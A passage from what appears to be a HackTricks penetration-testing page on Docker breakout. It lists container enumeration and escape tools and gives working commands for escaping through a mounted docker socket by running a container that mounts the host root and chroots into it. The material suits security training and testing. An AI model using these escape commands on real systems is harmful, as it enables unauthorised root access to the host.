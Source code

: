 

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>




<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>




<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>


# Docker Breakout / Privilege Escalation

## Automatic Enumeration & Escape

* [**linpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS): It can also **enumerate containers**
* [**CDK**](https://github.com/cdk-team/CDK#installationdelivery): This tool is pretty **useful to enumerate the container you are into even try to escape automatically**
* [**amicontained**](https://github.com/genuinetools/amicontained): Useful tool to get the privileges the container has in order to find ways to escape from it
* [**deepce**](https://github.com/stealthcopter/deepce): Tool to enumerate and escape from containers
* [**grype**](https://github.com/anchore/grype): Get the CVEs contained in the software installed in the image

## Mounted Docker Socket Escape

If somehow you find that the **docker socket is mounted** inside the docker container, you will be able to escape from it.\
This usually happen in docker containers that for some reason need to connect to docker daemon to perform actions.

```bash
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
```

In this case you can use regular docker commands to communicate with the docker daemon:

```bash
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```

{% hint style="info" %}
In case the **docker socket is in an unexpected place** you can still communicate with it using the **`docker`** command with the parameter **`-H unix:///path/to/docker.sock`**
{% endhint %}

Docker daemon might be also [listening in a port (by default 2375, 2376)](../../../pentesting/2375-pentesting-docker.md) or on Systemd-based systems, communication with the Docker daemon can occur over the Systemd socket `fd://`.

